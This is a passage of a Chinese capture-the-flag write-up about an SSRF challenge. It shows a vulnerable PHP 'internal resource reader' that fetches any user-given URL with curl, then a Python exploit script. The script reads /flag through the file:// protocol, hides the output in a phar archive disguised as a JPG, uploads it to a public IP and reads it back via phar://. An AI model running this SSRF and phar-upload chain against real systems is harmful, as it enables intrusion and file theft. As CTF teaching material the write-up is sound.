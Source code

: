 前面有内网，所以扫描ip的C段(就是内网的ip地址)，发现内网地址是10.10.10.10

直接访问：上面的脚本中payload换成http:// 10.10.10.10直接访问获取到内网的一个页面

还是存在SSRF漏洞

```php
<?php
//内网资源阅读器-测试机
//配置信息请看phpinfo.php


highlight_file(__FILE__);

if (isset($_GET['url'])){
    $link = $_GET['url'];
    $curlobj = curl_init();
    curl_setopt($curlobj, CURLOPT_POST, 0);
    curl_setopt($curlobj,CURLOPT_URL,$link);
    curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
    $result=curl_exec($curlobj);
    curl_close($curlobj);

    echo $result;
}

if($_SERVER['REMOTE_ADDR']==='
10.10.10.101'||$_SERVER['REMOTE_ADDR']==='
100.100.100.101'){
    system('cat /flag');
    die();
}

?>
```

没有禁用file协议，直接利用file协议读取flag即可

```Python
import base64
import time
import requests
import io
import os
for i in range(1,100):
    try:
        payload=f"php 1.php http:// 10.10.10.10/?url=file:///flag"
        res=os.popen(payload).read()
        with open(".phar/.metadata.bin", "w") as f:
            f.writelines(res.strip())
        os.popen("tar zcvf 3.jpg .phar demo.txt")
        time.sleep(0.1)
        url="http://47.104.95.124:8080/upload.php?fname=3.jpg"
        f=io.BytesIO(b"t" * 1024 * 50)
        r=requests.post(url=url,data={"PHP_SESSION_UPLOAD_PROGRESS": "2348"},files={"file": open("3.jpg", "rb")},cookies={"PHPSESSID": "2348"})
        path=r.text.split(" ")[-2].split("/")[-2]
        r=requests.get(f"http://47.104.95.124:8080/showfile.php?f=phar:///var/www/html/{path}/3.jpg/demo.txt",timeout=1)
        res=base64.b64decode(r.text.split("<body>")[-1].replace(" ","").split(",")[-2].split("/>")[-2])
        print(res.decode())
    except:
        pass
```
